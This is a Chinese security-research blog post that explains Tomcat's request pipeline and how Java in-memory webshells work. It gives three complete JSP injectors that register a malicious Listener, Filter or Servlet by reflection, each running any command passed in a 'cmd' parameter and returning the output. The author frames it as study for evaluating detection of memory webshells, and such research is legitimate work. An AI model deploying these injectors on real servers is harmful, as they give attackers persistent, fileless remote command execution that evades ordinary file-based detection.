# Java内存马原理研究-先知社区

> **来源**: https://xz.aliyun.com/news/17618  
> **文章ID**: 17618

---

## 环境准备

### Tomcat 调试

* 参考链接：

```
https://blog.csdn.net/liuyanglglg/article/details/108924630
```

* 首先克隆官方Tomcat源码，并切换到8.5.x分支

```
git clone https://github.com/apache/tomcat
git checkout 8.5.x
```

* 下载ant，用于下载和构建 Tomcat 依赖；
* 然后切换到 tomcat 目录，执行：

```
ant ide-intellij
```

* 开始构建，构建成功如下：



* 然后idea提示安装ant插件，并且切换本地的jdk 11，然后就能运行了；
* 我也不知道为啥debug选项已经设置好了，如下：



* 可以看到目前设置的主类，入口类是：org.apache.catalina.startup.Bootstrap，直接main下断点就可以跑了。

## 内存马原理

### 前言

* 其实内存马网上已经"说烂了"，但是个人理解很重要，单纯的只是过了一遍知识，无疑是跑马观花，沉淀在脑子里的很少，就和看电影一样，BAS 刚好要做内存马的 HIDS 评估，趁这个机会研究研究网上这些讲内存马的文章，然后形成自己的一套认知，落地并形成产品的能力。

### WAR 包部署之后发生了什么

* war（全称Web Application Archive），我们将 WAR 包放到 Tomcat 的指定目录（webapps）下，然后重启 Tomcat，即可访问我们的 web 应用；
* Tomcat 重启过程中对于 war 包怎么处理的？那我们尝试调试 Tomcat 的源码，入口在org.apache.catalina.startup.Bootstrap；



* 关键方法startInternal：





* 结合ChatGPT，我直接搜webconfig这个函数，下断点，然后Debug才找到调用它，自己一步一步找下去，代码太多了，就没这个耐心了。。





* 不止执行一次StartInternal方法，不知道为什么，暂时也不想探究，因为这样的话就偏离主题了；
* 可以知道，我们将编译好的WAR包放到Tomcat后，Tomcat重启时会解压并读取我们的web.xml文件，解析配置的 Servlet、Filter、Listener 等组件。

### 一个 HTTP 请求的"一生"

* 首先我们要知道的东西是，当我们浏览器发出一个请求访问部署在 Tomcat Web 服务器的时候，其从浏览器发出到 web 应用处理结束返回到浏览器的过程中，都发生了什么？
* 流程如下：

```
# 前提是目标是一个 Java Web 应用
当客户端发送请求到 Tomcat 时，Tomcat 按以下步骤处理请求：
1.接收请求：Tomcat 的连接器（如 HTTP 连接器）接收客户端的 HTTP 请求。
2.创建 Request 和 Response 对象：Tomcat 创建 org.apache.catalina.connector.Request 和 org.apache.catalina.connector.Response 对象，用于表示请求和响应。
3.调用 CoyoteAdapter：Tomcat 调用 org.apache.coyote.Adapter 接口的实现类 CoyoteAdapter，将请求交给 Coyote 引擎处理。
4.映射到 Context：CoyoteAdapter 将请求映射到对应的 Context（Web 应用）。
5.触发 ServletRequestListener 的 requestInitialized 方法：在请求处理开始之前，Tomcat 会触发所有注册的 ServletRequestListener 的 requestInitialized 方法。
6.调用 Pipeline：Tomcat 的 StandardContext 包含一个 Pipeline 对象，该对象维护了多个 Valve（阀门），每个 Valve 都可以对请求进行处理。请求会依次通过这些 Valve。
7.调用 Wrapper：Pipeline 最终将请求传递给 Wrapper（具体的 Servlet 实例），并调用相应的 Servlet 方法（如 doGet 或 doPost）。
8.调用 Filter（前置处理）：在调用 Servlet 之前，Tomcat 会按顺序调用所有匹配的 Filter 的 doFilter 方法。
9.处理请求：Servlet 处理请求，并生成响应数据。
10.调用 Filter（后置处理）：在 Servlet 处理完成后，Tomcat 会按顺序调用所有匹配的 Filter 的 doFilter 方法进行后置处理。
11.触发 ServletRequestListener 的 requestDestroyed 方法：在请求处理完毕之后，Tomcat 会触发所有注册的 ServletRequestListener 的 requestDestroyed 方法。
12.发送响应：Tomcat 将响应数据通过连接器发送回客户端。
```

* 对于内存马这块，我们只关心其中的 3 个组件的调用顺序

```
# Http 请求到达 Tomcat，最后请求处理完毕过程中调用了
Listener的 requestInitialized 方法 -> Filter 的 doFilter 方法（前半部分: chain.doFilter(request, response)之前的代码） -> Servlet -> Filter 的 doFilter 方法（后半部分: chain.doFilter(request, response)之后的代码） -> Listener 的 requestDestroyed 方法
```

#### Listener 的作用及实现

* Listener 用于监听和处理特定事件，其中不止一种 Listener，但是对于内存马这块，我们只关注一种 Listener，那就是 ServletRequestListener。 它会在Servlet、Filter 处理请求之前调用，以及Servlet、Filter 处理请求之后再次调用。
* 那怎么实现 Listener 呢？传统方式的实现主要就是两步：

```
1.编写 Listener 类代码实现 ServletRequestListener 接口；
2.web.xml 中配置该 Listener，使得 Tomcat 读取 web.xml 时知道这个 Listener，并初始化它；（或者通过 Java 注解的方式在编写的 Listener 类代码上方备注其是一个 Listener）
```

* 传统开发 Listener 的方式就不讲了，那是开发的事儿；对于 Java 内存马这块，对于攻击者该怎么做呢？Servlet 3.0 以上提供了动态注册 Listener 的方式，通俗的讲：也就是说在应用运行的时候，我们不用修改源代码，通过 Java 反射机制实现运行时创建 Listener 实例，并且反射获取 StandardContext 的 addApplicationEventListener 来动态注册我们的 Listener；
* 这里提到了一个 addApplicationEventListener 方法，它是啥呢？我们先按"传统方式"在 Tomcat 源码中写一个Listener并注册到 web.xml 中，如下：



* Debug Tomcat，并且在 requestInitialized 下断点。然后我们尝试访问一下 Tomcat 页面，此时会触发 Listener 的断点，如下：



* 我们如下查看函数调用栈，可以看到所调用的 Listener 的实例是 StandardContext 的 fireRequestInitEvent 方法所调用的 getApplicationEventListeners 所得到的；



* 查看getApplicationEventListener方法，我们可以看到其返回了 StandardContext 的一个成员变量 applicationEventListenersList；重点来了，这个成员变量的实例会在 Tomcat 执行 Listener 的时候被调用，所以 Listener 内存马思路怎么做？通过反射调用 addApplicationEventListener 添加 Listener 实例（也叫动态注册），然后每发起一次 http 请求，自然就会触发我们注册的 Listener 对象的 （实例）的 requestInitialized 和 requestDestroyed 方法；



##### Listener 内存马编写

* 思路：目前我了解到，实际攻击过程中，先上传一个 JSP 木马，然后访问该 JSP 木马，木马执行反射调用 add Application 方法注册对应的 Listener 对象，举例如下：

```
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%--<%@ page import="javax.servlet.ServletRequestEvent" %>--%>
<%--<%@ page import="javax.servlet.ServletRequestListener" %>--%>
<%--<%@ page import="javax.servlet.http.HttpServletRequest" %>--%>
<%@ page import="java.io.StringWriter" %>
<%@ page import="java.io.PrintWriter" %>


<%!
    public class MyListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            // 可选：处理请求销毁时的逻辑
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            String cmd = req.getParameter("cmd");
            if (cmd != null) {
                try (InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                     Scanner s = new Scanner(in, "UTF-8").useDelimiter("\A")) {
                    String output = s.hasNext() ? s.next() : "";
                    Field requestField = req.getClass().getDeclaredField("request");
                    requestField.setAccessible(true);
                    Request internalRequest = (Request) requestField.get(req);
                    internalRequest.getResponse().getWriter().write(output);
                } catch (IOException | NoSuchFieldException | IllegalAccessException e) {
                    e.printStackTrace();
                }
            }
        }
    }
%>


<%
    try {
        // 获取Request对象
        Field reqF = request.getClass().getDeclaredField("request");
        reqF.setAccessible(true);
        Request req = (Request) reqF.get(request);

        // 获取StandardContext对象
        StandardContext context = (StandardContext) req.getContext();

        // 检查是否已经注册了相同类型的Listener
        boolean alreadyRegistered = false;
        for (Object listener : context.getApplicationEventListeners()) {
            if (listener instanceof MyListener) {
                alreadyRegistered = true;
                break;
            }
        }

        if (!alreadyRegistered) {
            // 创建Listener实例
            MyListener listenerDemo = new MyListener();

            // 动态注册Listener
            context.addApplicationEventListener(listenerDemo);

            // 输出确认信息
            out.println("MyListener dynamically registered.<br/>");
        } else {
            // 输出已注册信息
            out.println("MyListener already registered.<br/>");
        }
    } catch (NoSuchFieldException | IllegalAccessException e) {
        StringWriter sw = new StringWriter();
        e.printStackTrace(new PrintWriter(sw));
        out.println(sw.toString());
    }
%>
```

* 上述代码通过addApplicationEventListener注册了恶意listener，当我们第一次访问的时候，就会尝试去注册我们的Listener，然后下一次访问我们只需要在任意GET请求中带上cmd参数，则能够去执行命令。
* 第一次访问响应如下：





* 此时可以看到第一次访问的时候applicationEventListenersList中是没有内容的，说明之前没有注册该Listener；
* 我们尝试第二次访问，不带cmd参数，访问同一个web应用的任意页面都行（因为不同web应用创建了不同的StandardContext对象），因为我们的Listener已经注册了，如下能看到：



* 第三次访问，访问一个不存在的路径，但是带上了cmd参数，可以看到如下已经"常驻的Listener内存马"：





* 当 Web 应用被停止或重新部署时，对应的 ServletContext 实例被销毁，所有注册的 ServletRequestListener 才会被销毁；

##### 获取 StandardContext 对象的方式

* 上述例子可以看到，我们是通过如下方式获取的 StandardContext 对象，然后调用其 addApplicationEventListener 方法注册 Listener 内存马：

```
// 获取Request对象
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);

// 获取StandardContext对象
StandardContext context = (StandardContext) req.getContext();
```

* 网上说还有一种方式是说通过获取当前线程的ClassLoader进而获取StandardContext对象，我试了报错，也不知道为啥，毕竟没有深入了解JAVA，emmmm....：

```
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

#### Filter 的作用及实现

* Filter的作用也是用来处理web请求的，不过是在 Listener 处理之后，就像之前说的。在请求到达 Servlet 之前进行预处理，在Servlet 处理请求之后再进行处理；

##### 简单实现一个 Filter

* 咱简单以"传统方式"写一个 Filter 看看怎么个事儿。
* 写好一个Filter，然后配好web.xml，编译之后，重启Tomcat，我们发现 Tomcat 启动时调用了 Filter 的 init 方法，不过不重要，因为动态注册是发生在 Tomcat 运行过程中的，所以这里的 init 似乎不好利用？



* 我们可以看如下配置的web.xml中filter的部分，其表示当我们访问 url 目标/路径下任意路径，都会调用org.apache.memshell.Filter.TestFilter；其中<filter></filter>中的<filter-name>和<filter-mapping></filter-mapping>中的<filter-name>对应了起来。

```
<filter>
    <filter-name>TestFilter</filter-name>
    <filter-class>org.apache.memshell.Filter.TestFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>TestFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

* 可以看到我们访问/xxx路径的时候，doFilter被调用了。



##### 关联 Filter 的关键点

* 我们继续看函数调用栈，往上回溯：



* 依次从 filterChain.doFilter -> internalDofilter -> filter.doFilter，为什么在 filterChain 这里停止了呢？因为我们往上看代码：



* 可以看到filterChain实例是由ApplicationFilterFactory工厂类（至于什么是工厂类，可以学习一下软件的设计模式）创建的；
* 我们在ApplicationFilterFactory类的createFilterChain方法中设置断点，跟进一下：





* 可以看到其中用到了StandardContext对象的filterMaps对象，内容包含了我们web.xml中注册好的<filter-mapping>部分：即filter-name和对应的url-patterns.
* 然后接下来又调用了相关联的context.findFilterConfig方法，filterMap.getFilterName()得到的"TestFilter"作为参数传入，如下所示：



* 步入findFilterConfig方法中可以看到两个HashMap，一个filterConfigs，一个filterDefs，调用逻辑就是等于我们之前说的 web.xml 的对应逻辑相同，先获取到了StandardContext的成员filterMaps（即<filter-mapping>内容）的filter-name，然后拿着filter-name去StandardContext的成员filterConfigs对象中找到对应需要调用的<filter-class>，在这里即org.apache.memshell.Filter.TestFilter。

```
<filter>
    <filter-name>TestFilter</filter-name>
    <filter-class>org.apache.memshell.Filter.TestFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>TestFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```



* 那这里有个问题了：我们是从filterConfigs中获取到的<filter-class>，那filterDefs是干嘛的？它和filterConfigs什么关系？还记得我们最开始在"简单实现一个Filter"的时候，Tomcat 启动的时候调用的 init 方法吗？
* 我们重启Tomcat，在init方法处打断点，然后调用栈往上回溯，可以看到filterConfig的创建是关联filterDefs的，filterDefs本身来自于web.xml的<filter>配置，如果想知道web.xml是怎么读取到filterDefs的话，可以看前面写的"WAR 包部署之后发生了什么"那部分内容，在处理web.xml那里打断点。



* OK，我们跳出 StandardContext.findFilterConfig 方法，我们现在知道 filterConfig 决定于 filterMap 和 filterDef；
* 往下继续走，可以看到filterChain.addFilter(filterConfig)，通过创建一个ApplicationFilterConfig实例并添加到filters中，最后返回filterChain，至此 CreateFilterChain 方法调用完毕；



* 经过上述的代码分析，总结一下上述整个调用流程：

```
# Tomcat 运行过程中
用户发起一个xxx.com/xxx的请求
-> 其他xxx处理
-> ApplicationFilterFactory.createFilterChain 中根据 filterDefs、filterMaps、filterConfigs 创建 filterChain
-> FilterChain.doFilter
-> internalDoFilter
-> filter.doFilter（即我们编写的 doFilter 逻辑）
```

##### 怎么动态注册 Filter

* 也就是说，我们只需要控制 filterDefs、filterMaps 以及 filterConfigs，就能控制 filterChain 的创建，进而调用我们 Filter 内存马的 doFilter 逻辑；到这我已经写的有点头晕了。。。
* Step 1:引入必要的类

```
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
```

* Step 2：反射获取 StandardContext 对象，其是 Tomcat 中表示 Web 应用上下文的核心类，包含了 Web 应用的配置信息。

```
<%
    final String name = "just_test";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
%>
```

* Step 3: 检查是否包含我们的 just\_test 过滤器，如果有，就不重复注册了；

```
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
```

* Step 4: 定义和创建Filter实例，通过 cmd 参数执行命令；

```
Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            @Override
            public void destroy() {

            }
        };
```

* Step 5: 创建并注册 FilterDef 和 FilterMap；
* FilterDef：包含了过滤器的定义信息，如名称、类名和实例；
* FilterMap：定义了过滤器的 URL 映射模式和调度类型；
* 将FilterDef和FilterMap分别添加到StandardContext中；

```
FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);
```

* Step 6: 通过反射创建 ApplicationFilterConfig 实例，这是运行时过滤器的配置信息，并将其添加到 filterConfigs 中。

```
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

        filterConfigs.put(name, filterConfig);
        out.print("Filter Memshell Inject Success !");
    }
%>
```

* 完整 Filter 内存马如下：

```
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "just_test";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Filter Memshell Inject Success !");
    }
%>
```

* 访问该jsp，注册filter内存马：



* 尝试执行命令：



#### Servlet 的作用及实现

##### 简单实现一个Servlet

* 类似前面的 Listener 和 Filter，web.xml 需要写两个东西：（1）url 路由；（2）对应的 Servlet 类的包路径；两者以 servlet-name 关联起来；



* 访问/test路径：



##### 动态注册 Servlet

* "部分 Servlet 的创建"会在 Tomcat 启动过程中，我们调试 Tomcat 启动过程，我们发现，每 Deploy 一个 web 应用，都会调用一次 loadOnStartup 方法，如下：



* 因为我们的 Servlet 是注册在 webapps/ROOT/WEB-INF/ 目录下的，所以断点多次跳过，直到 load 我们的 ROOT 应用；
* 可以看到loadOnStartup里面传入了一个children成员变量（其为 HashMap类型），其中包含我们编写的 TestServlet 名称；





* 步入 loadOnStartup 方法，首先是从 children 中筛选出将创建的 Servlet 加入了 map 中，可以看到 map 中没有我们编写的 TestServlet；



* 然后通过wrapper.load() 创建 Servlet 实例；





* 那问题来了，我们自己写的 Servlet 实例什么时候创建呢？
* 其实在 web.xml 中可以选择配置我们的 Servlet 实例是否在 Tomcat 启动时创建，类似如下这样：

```
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
         version="3.1">
  
    <servlet>
        <servlet-name>TestServlet</servlet-name>
        <servlet-class>com.example.TestServlet</servlet-class>
        <load-on-startup>1</load-on-startup>
    </servlet>
    
    <servlet-mapping>
        <servlet-name>TestServlet</servlet-name>
        <url-pattern>/test</url-pattern>
    </servlet-mapping>

</web-app>
```

* 如果没有配置的话，是在用户第一次发起请求访问未配置"load-on-startup"的 Servlet 的时候进行创建；
* 我们在 TestServlet 中下断点，然后回溯到StandardHostValue类的invoke方法，并且我们在前面知道了创建Servlet 的方法是 loadServlet；所以直接在 loadServlet 下断点，然后访问localhost/test路径，即可以触发：



* 还记得我们最开始启动 Tomcat 时， 调用了 loadOnStartup 方法，其中从 children 中筛选出将创建的 Servlet 加入了 map 中；这里在 StandardContext 里面有个 addChild 方法，我们看一下；

（这块先放一下，要落地一些东西，emmmm...）

##### Servlet 内存马实现

* 参考的一篇文章，内存马如下：

```
<%-- Tomcat8 动态注册Servlet，再起service()方法中实现内存马逻辑--%>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%
    final String name = "servletshell";
    // 获取上下文
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    //注册Servlet对象 并重写service方法
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[] {"sh", "-c", cmd} : new String[] {"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner( in ).useDelimiter("\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
    //创建Wrapper对象来封装前面new Servlet对象
    org.apache.catalina.Wrapper newWrapper = standardContext.createWrapper();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
    //添加路由 为Wrapper对象添加 map映射
    standardContext.addChild(newWrapper);
    standardContext.addServletMappingDecoded("/servletmemshell",name);
    response.getWriter().write("inject success");

%>
<html>
<head>
    <title>servletshell</title>
</head>
<body>

</body>
</html>
```

## 结语

#### 一句话

* Java 内存马除了上述基础的内存马以后，还有其他类型，下次讨论。
